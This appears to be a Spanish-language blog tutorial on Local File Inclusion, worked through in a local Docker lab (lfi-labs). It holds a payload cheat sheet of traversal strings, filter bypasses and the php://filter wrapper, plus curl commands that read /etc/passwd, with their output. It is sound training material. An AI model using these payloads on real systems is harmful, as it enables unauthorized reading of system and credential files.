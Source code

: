 ```yaml
---
title: Laboratorio - LFI
author: cotes
date: 2023-06-24 17:51:00 +0800
categories: [Laboratorio, LFI]
tags: [LFI, OWASP]
math: true
mermaid: true
image:
  path: /assets/images/Laboratorios/lfi/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LFI Logo
---
```


LFI (Local File Inclusion) es una vulnerabilidad web, de la cual nos podemos aprovechar para leer archivos de la máquina objetivo y en el mejor de los casos, para los atacantes, llegar a derivarlo a un RCE (Remote Code Execution)

## Cheatsheet 👩‍💻

|   **LFI**                | **Descripción**      |
|:----------------------------:|:-----------------|
| **`../../../../../../../../`** | Payload Básico. |
| **`....//....//....//....//`** | Bypass Posible Filtro. |
| **`/etc/./////.///hosts`**  \  **`/et?/?o?t?`** | Bypass Expresiones Regulares. |
| **`/etc/host%00`** \ **`/etc/passwd/.`** | Bypass Concatenación de Extensiones. |
| **`php://filter/convert.base64-encode/resource=[Path]`** | Wrapper de Codificación en Base64. 
| **`%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`** | Bypass Posible Filtro. (Se urlencodea la cadena `../../../etc/passwd`) |



> Para practicar esta vulnerabilidad desplegaremos un **laboratorio con Docker:** `docker pull jnazario/lfi-labs`
{: .prompt-info }


* Como nos creó una imagen la ejecutamos haciendo por **Port Forwarding**: **`docker run -dit -p 80:80 <Image ID>`**


## LFI Básico ⚾

1. Para el primer laboratorio **LFI-1** nos dirigimos a: `http://localhost/LFI-1/`

![](/assets/images/lfi/lfi1.png)
   * Vemos que existe un parámetro **page** por el cual podemos indicar una página.
   * Si el **input** del usuario no se encuentra correctamente sanitizado, podemos llegar a leer archivos alojados en el servidor (**archivos de configuración**, **archivos críticos**, **etc**)

2. Intentaremos leer el archivo **`/etc/passwd`**

```bash
curl -s -X GET "http://localhost/LFI-1/index.php?page=/etc/passwd"

<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<SNIP>
```

### Laboratorio **LFI-3**

* Dependiendo del uso de determinadas librerías para incluir archivos, podremos leer archivos locales o incluir archivos de servidores externos.

    ![](/assets/images/lfi/functions.png)

* Al usar **`file_get_contents()`** podemos **leer archivos locales y externos**

* **Leer Archivos Locales:** `http://localhost/LFI-3/index.php?file=/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ```

* **Leer Archivos Remotos:**

    a. Primeros montamos un servidor **HTTP** con Python con un archivo **test.txt** que tenga el contenido `Hola`.

    * **Comando:** `python3 -m http.server 8080`

    b. Realizamos una petición con **cURL** a nuestro servidor:
    * **Comando:** `curl -s -X GET "http://localhost/LFI-3/index.php?file=http://<IP Máquina Host>:8080/test.txt"`

    * **Output**
        ```
        <SNIP>
        Hola
        ```
        > Vemos el contenido de nuestro archivo **test.txt** de nuestra máquina host.
         
### Laboratorio **LFI-5**
Al aplicar el **payload básico** veremos que no nos funciona, esto puede deberse a que se aplique un filtro mediante el cual eliminen `../`, este filtro puede **bypassearse**, si no se encuentra aplicado correctamente.

```php
<?php
$cadena = "../directorio/archivo.txt";
$reemplazo = "";
$nuevaCadena = str_replace("../", $reemplazo, $cadena);
echo $nuevaCadena; # nuevaCadena = directorio/archivo.txt
?>
```

Si nos fijamos bien en el código anterior, veremos que se elimina la coincidencia **`../`**, pero, no se aplica de manera recursiva, es decir, solo lo elimina una vez.

En caso de indicarle **`....//`** al eliminar una única vez **`../`** la cadena final será **`../`**, así que ya encontramos una forma de **bypassear** el filtro posiblemente aplicado.

* **Comando:** `curl -s -X GET "http://localhost/LFI-5/index.php?file=....//....//....//....//....//....//....//....//etc/passwd"`

* **Output**

```
<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

### **Usando Wrappers de PHP** 🍬
A pesar de que en todos los casos anteriores obtenemos el archivo **/etc/passwd** exitosamente, existirán casos en los que representar archivos con una estructura con muchas líneas o caracteres especiales puede corromper la muestra del mismo, haciendo que no nos sea posible leer archivos. Para evitar este tipo de problemas podemos representar la información en **base64**

En el laboratorio **LFI-1** podemos obtener el contenido encodeado en base64 usando **php://filter/encode.base64-convert/resource=[Path Archivo]**

* **Comando:** `curl -s -X GET "http://localhost/LFI-1/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd"`

* **Output**

    ```
    <SNIP>
    cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25v<SNIP>
    ```

Ahora, podemos decodear la cadena anterior y ver el contenido original

* **Comando:** `echo -n "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3N<SNIP>" | base64 -d > lfi.txt`


![](/assets/images/lfi/text.png)